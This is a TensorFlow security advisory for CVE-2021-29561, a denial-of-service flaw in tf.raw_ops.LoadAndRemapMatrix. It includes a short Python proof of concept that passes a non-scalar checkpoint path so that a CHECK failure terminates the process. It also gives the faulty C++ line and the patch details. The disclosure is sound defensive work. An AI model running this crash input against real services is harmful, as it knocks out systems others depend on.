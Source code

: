 ## TFSA-2021-049: `CHECK`-fail in `LoadAndRemapMatrix`

### CVE Number
CVE-2021-29561

### Impact
An attacker can cause a denial of service by exploiting a `CHECK`-failure coming
from `tf.raw_ops.LoadAndRemapMatrix`:

```python
import tensorflow as tf

ckpt_path = tf.constant([], shape=[0], dtype=tf.string)
old_tensor_name = tf.constant("")
row_remapping = tf.constant([], shape=[0], dtype=tf.int64)
col_remapping = tf.constant([1], shape=[1], dtype=tf.int64)
initializing_values = tf.constant(1.0)

tf.raw_ops.LoadAndRemapMatrix(
    ckpt_path=ckpt_path, old_tensor_name=old_tensor_name,
    row_remapping=row_remapping, col_remapping=col_remapping,
    initializing_values=initializing_values, num_rows=0, num_cols=1)
```

This is because the
[implementation](https://github.com/tensorflow/tensorflow/blob/d94227d43aa125ad8b54115c03cece54f6a1977b/tensorflow/core/kernels/ragged_tensor_to_tensor_op.cc#L219-L222)
assumes that the `ckpt_path` is always a valid scalar.

```cc
const string& ckpt_path = ckpt_path_t->scalar<tstring>()();
```

However, an attacker can send any other tensor as the first argument of
`LoadAndRemapMatrix`. This would cause the rank `CHECK` in `scalar<T>()()` to
trigger and terminate the process.

### Patches
We have patched the issue in GitHub commit
[77dd114513d7796e1e2b8aece214a380af26fbf4](https://github.com/tensorflow/tensorflow/commit/77dd114513d7796e1e2b8aece214a380af26fbf4).

The fix will be included in TensorFlow 2.5.0. We will also cherrypick this
commit on TensorFlow 2.4.2, TensorFlow 2.3.3, TensorFlow 2.2.3 and TensorFlow
2.1.4, as these are also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by Yakun Zhang and Ying Wang of Baidu
X-Team.
